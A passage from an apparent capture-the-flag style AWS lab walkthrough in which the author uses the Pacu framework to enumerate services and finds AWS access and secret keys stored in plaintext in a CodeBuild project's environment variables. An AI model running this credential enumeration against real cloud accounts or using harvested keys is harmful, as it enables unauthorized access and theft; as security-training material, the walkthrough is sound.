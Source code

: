 **Note: In the command above I specify the us-east-1 region, this is because I know us-east-1 is only region in my account where workloads are being placed. If you do not know where the workloads exist, you will have to enumerate each region.*

![lambda_enum](images/lambda-enum.png "img-fluid")

Once again, brick wall. We are missing the required permissions. All of the other service enumerations return the same results except for one, codebuild.

---

### Codebuild Enum

```bash
run codebuild__enum
```

![codebuild_enum](images/codebuild-enum.png "img-fluid")

Success! The codebuild enumeration found 1 project and 2 environment variables. Neat! In Pacu we can run the `data` command to see the information it pulled from our enumeration efforts. Below is a snippet of the data:

```json
Pacu (code_build:solo) > data

CodeBuild: {
 "EnvironmentVariables": [
  {
   "name": "calrissian-aws-access-key",
   "value": "AKIA5X73KRQWNCPL",
   "type": "PLAINTEXT"
  },
  {
   "name": "calrissian-aws-secret-key",
   "value": "nG3Wtl86vXcDp90JUx9smFriCoFk0",
   "type": "PLAINTEXT"
  }
 ],
 "Projects": [
 {
  "name": "cg-codebuild-cgidg25jfhzv9a",
  "arn": "arn:aws:codebuild:us-east-1:1111111111111:project/cg-codebuild-cgidg25jfhzv9a",
```